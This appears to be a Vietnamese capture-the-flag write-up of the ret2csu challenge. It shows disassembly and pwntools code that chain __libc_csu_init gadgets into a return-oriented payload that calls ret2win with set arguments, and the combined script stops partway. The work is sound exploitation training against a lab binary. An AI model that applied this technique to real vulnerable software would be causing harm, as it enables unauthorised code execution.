 Tới đây ta có rsi và rdx, riêng rdi ta cần phải thực hiện ở payload2, đó là lí do ta không gọi trực tiếp hàm ret2win với r12

Với r12 ta sử dụng hàm `__init__` vì  nó không cần đối số

Ta thấy sau `call qword [r12 + rbx*8]` thì rbx sẽ từ 0 thêm 1 và nếu rbp khác rbx  thì sẽ quay lại 0x400680. Đó là lí do tại payload1 ta sẽ cho rbp bằng 0x1 để thực hiện đoạn tiếp theo và đoạn này chứa Gadget 2

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
```

Ở payload 2 ta sẽ thêm vào rsp một đoạn padding bất kỳ do trước kế tiếp payload1 sẽ là `add rsp, 8`, tại payload 2 ta gọi hàm trong r12 ở đây là `__init__` (chỉ để giữ nguyên rsi, rdi, rdx). Kế tiếp ta truyền giá trị cho rdi do Gadget 2 trước đó chỉ control được edi. 

```text-x-python
payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
payload2 += p64(0x0) # rbx
payload2 += p64(0x0) # rbp
payload2 += p64(0x0) # r12
payload2 += p64(0x0) # r13
payload2 += p64(0x0) # r14
payload2 += p64(0x0) # r15
payload2 += p64(0x4006a3) # 0x00000000004006a3: pop rdi; ret;
payload2 += p64(0xdeadbeefdeadbeef) # -> rdi
payload2 += p64(ret2win)
```

Kết hợp 2 payload

```text-x-python
from pwn import *

libc_csu_int = 0x400640 # 55  0x00000640 0x00400640 GLOBAL FUNC   101      __libc_csu_init
init = 0x400398 # 0x400398 point to 0x4004d0 # 8   0x000004d0 0x004004d0 GLOBAL FUNC   0        _init
ret2win_GOT = 0x601020 # 0x00400510 ff250a0b2000   jmp qword [reloc.ret2win]   ; [0x601020:8]=0x400516
ret2win = 0x400510 #2   0x00000510 0x00400510 GLOBAL FUNC   16       imp.ret2win


context.update(arch='amd64', os='linux')

p = process('./ret2csu')
# gdb.attach(p,'''
# break *pwnme
# ''')

payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx

payload2 = p64(libc_csu_int + 0x40) # Gadget 2
payload2 += b'B'*8
```